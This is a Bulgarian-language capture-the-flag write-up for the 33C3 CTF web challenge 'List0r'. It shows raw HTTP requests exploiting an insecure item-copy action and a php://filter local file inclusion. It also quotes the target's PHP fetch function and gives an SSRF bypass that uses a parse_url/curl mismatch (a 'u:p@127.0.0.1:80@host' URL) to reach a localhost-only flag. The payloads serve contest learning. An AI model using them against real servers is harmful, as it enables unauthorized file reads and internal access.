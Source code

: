 # **List0r** - 400 точки
**33c3ctf/web**

![](files/header.png)


отдалечен уеб сървър: http://78.46.224.80/

Първата уязвима функция която открих се намира във функцията за копиране на item от list-овете който можем да създаваме. 

![](files/copy_function.png)

Уязвимоста ни позволява да правим хоризонтални ескалаций в правата и да копираме чужд item в наш list. 

```
GET /?target=<int(4453)-ID на нашия list>&page=item&action=copy&item=<int-номер на item който искаме да копираме в нашия лист> HTTP/1.1
Host: 78.46.224.80
Accept-Encoding: gzip, deflate, sdch
Accept-Language: en-US,en;q=0.8
Cookie: PHPSESSID=bh3hcnmsltvp97oaobcivap6g7
Connection: close
```

Направих бързо енумериране(и прехвърляне) на 1вите създаде items и ето че този с номер 5 ни издава нещо интересно:

![](files/item_hint.png)

Оказва се обаче че файлът - **reeeaally/reallyy/c00l/and_aw3sme_flag**, не може да бъде достъпен директно с GET заявка към сървъра. 

Файлът трябва да бъде достъпен през localhost

```
403 - Sorry, but this is only accessible from 127.0.0.1
```

Явно трябва да има още уязвими функций по пътя. Такива че да можем да направим  **Local File Inclusion**(LFI)

Такава уязвимост успях да намеря отново посредством **PHP филтри** в:

```
GET /?page=php://filter/convert.base64-encode/resource=index HTTP/1.1
Host: 78.46.224.80
Accept-Encoding: gzip, deflate, sdch
Accept-Language: en-US,en;q=0.8
Cookie: PHPSESSID=bh3hcnmsltvp97oaobcivap6g7
Connection: close
```

Макар и да **НЕ** можем да достъпим флагът през тази функция успяваме да изтеглим всички релевантни за web апликацият [*.php файлове](files/source_code_p400.tar.gz) от сървъра. Забиваме поглед в сорс-кода и му правивм ревю за други уязвимости.

Файлът който представлява най-голям интерес е **functions.php** и по-специално функцията **get_contents($url)**:

```php
function get_contents($url) {
        $disallowed_cidrs = [ "127.0.0.1/24", "169.254.0.0/16", "0.0.0.0/8" ];

        do {
            $url_parts = parse_url($url);

            if (!array_key_exists("host", $url_parts)) {
                die("<p><h3 style=color:red>There was no host in your url!</h3></p>");
            }

            $host = $url_parts["host"];

            if (filter_var($host, FILTER_VALIDATE_IP, FILTER_FLAG_IPV4)) {
                $ip = $host;
            } else {
                $ip = dns_get_record($host, DNS_A);
                if (count($ip) > 0) {
                    $ip = $ip[0]["ip"];
                    debug("Resolved to {$ip}");
                } else {
                    die("<p><h3 style=color:red>Your host couldn't be resolved man...</h3></p>");
                }
            }

            foreach ($disallowed_cidrs as $cidr) {
                if (in_cidr($cidr, $ip)) {
                    die("<p><h3 style=color:red>That IP is a blacklisted cidr ({$cidr})!</h3></p>");
                }
            }

            // all good, curl now
            debug("Curling {$url}");
            $curl = curl_init();
            curl_setopt($curl, CURLOPT_URL, $url);
            curl_setopt($curl, CURLOPT_RETURNTRANSFER, true);
            curl_setopt($curl, CURLOPT_SSL_VERIFYPEER, false);
            curl_setopt($curl, CURLOPT_MAXREDIRS, 0);
            curl_setopt($curl, CURLOPT_TIMEOUT, 3);
            curl_setopt($curl, CURLOPT_PROTOCOLS, CURLPROTO_ALL 
                & ~CURLPROTO_FILE 
                & ~CURLPROTO_SCP); // no files plzzz
            curl_setopt($curl, CURLOPT_RESOLVE, array($host.":".$ip)); // no dns rebinding plzzz

            $data = curl_exec($curl);

            if (!$data) {
                die("<p><h3 style=color:red>something went wrong....</h3></p>");
            }

            if (curl_error($curl) && strpos(curl_error($curl), "timed out")) {
                die("<p><h3 style=color:red>Timeout!! thats a slowass  server</h3></p>");
            }

            // check for redirects
            $status = curl_getinfo($curl, CURLINFO_HTTP_CODE);
            if ($status >= 301 and $status <= 308) {
                $url = curl_getinfo($curl, CURLINFO_REDIRECT_URL);
            } else {
                return $data;
            }

        } while (1);
    }
```
Тази функция се използва от "Настройки на профила"(http://78.46.224.80/?page=profile) в часта където трябва да се посочи URL за сваляне на снимка от отдалечен сървър.

Функцията започва с защита срещу това да бъдат използвани алтернативив на localhost, който не съм сигурен доколко работят защото дори адреси като 127.1.0.1 би трябвало да бъдат приети(защото не е в 127.0.0.1/24). Но като допълнение се прави **reserve lookup**.

Виждаме следните коментари в кода:
* `// no files plzzz` - това посочва че сме на правилен път и може да извикваме всякакъв вид вайлове който да ни бъдат презентирани с `return $data`
* `// no dns rebinding plzzz` - до сега не бях правил **dns rebinding** 
_ПС: и след 20 неуспешни опита, все още не съм правил :)_ 

Следващата интересна част от кода беше функцията [`parse_url()`](http://php.net/manual/en/function.parse-url.php) която след няколко теста разбрах че има пропуски в parsing часта:

Нека вземем примерно валидната **curl** заявка:
```
d3k4:/$ curl -vvv http://u:p@google.com:80@yahoo.com/нещоси

# Kъдето
# u = потребител (случайни данни)
# p = парола (случайни данни)
# google.com = хостът към който ще се прати заявката
# 80 = порт 
# yahoo.com/нещо = това ще бъде прието като path но ще бъде съкратено до /нещо
```  

Сега нека да го сравним с parsing функционалността на **parse_url()**. Резултата на [този скрипт](files/parse_url_test.php) ни дава:

```
initial: http://u:p@127.0.0.1:80@d3k4.com/reeeaally/reallyy/c00l/and_aw3sme_flag 
H=d3k4.com # хостът запазен в $url_parts["host"] променливата
u=u # потребител
pass=p@127.0.0.1:80 # очевидно НЕ е паролата 
path=/reeeaally/reallyy/c00l/and_aw3sme_flag #пътя до файла
```

Тази разлика в parsing-а на подаваните адреси ще ни позволи да заобиколим защитата. Изпращаме следната заявка:

![](files/profile_curl.png)

Тази завка успява усешно да премине през защитата, защото lookup ще бъде направен на **d3k4.com** а няма да се обърне внимание на адреса **127.0.0.1** който ще бъде насочена **curl** заявката.

`33C3_w0w_is_th3r3_anything_that_php_actually_gets_right?!???`